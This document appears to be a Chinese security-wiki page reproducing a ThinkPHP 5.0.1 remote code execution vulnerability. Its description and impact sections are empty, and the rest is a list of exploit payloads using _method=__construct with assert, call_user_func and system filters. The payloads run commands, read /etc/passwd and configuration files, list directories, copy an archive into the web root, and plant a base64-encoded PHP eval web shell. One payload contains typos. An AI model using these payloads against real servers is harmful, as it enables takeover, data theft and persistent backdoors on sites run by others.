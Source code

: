```yaml
---
title: Thinkphp 5.0.1
id: zhfly3147
---
```


# Thinkphp 5.0.1

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、判断是否存在漏洞

#### poc1

```
http://wwww.0-sec.org/public `s=phpinfo()&_method=__construct&filter=assert

_method=__construct&method=get&filter[]=call_user_func&server[]=phpinfo&get[]=phpinfo

_method=__construct&method=get&filter[]=call_user_func&get[]=phpinfo

_method=__construct&method=get&filter[]=call_user_func&get[0]=phpinfo&get[1]=1` 
```

#### poc2

```
http://wwww.0-sec.org/?s=index/index/index `s=ipconfig&_mehthod=__construct$method=&filter[]=system` 
```

### 2、深入利用

使用post提交

#### 1、使用assert函数

```
s=phpinfo()&_method=__construct&filter=assert 
```

#### 2、include函数，可以根据此函数查看一些文件及其配置

```
s=include("/etc/passwd")&_method=__construct&filter=assert 
```

#### 3、file_put_contents函数，可以直接写入文件

```
s=file_put_contents('/data/wwwroot/www.0-sec.org/application/index/test.php',base64_decode('PD9waHAgJHBhc3M9JF9QT1NUWydhYWFhJ107ZXZhbCgkcGFzcyk7Pz4'))&_method=__construct&filter=assert 
```

#### 4、读取文件

```
_method=__construct&method=get&filter[]=think\__include_file&server[]=phpinfo&get[]=../application/.htaccess 
```

```
s=include("../application/.htaccess")&_method=__construct&filter=assert `//ps:如果不加… 请加上完整路径` 
```

#### 5、var_dump函数，可以查看该路径下的文件，文件夹

```
s=var_dump(scandir('../application/'))&_method=__construct&filter=assert 
```

#### 6、复制文件

```
s=copy("/data/wwwroot/data.tar", "/data/wwwroot/www.0-sec.org/public/data.tar")&_method=__construct&filter=assert 
```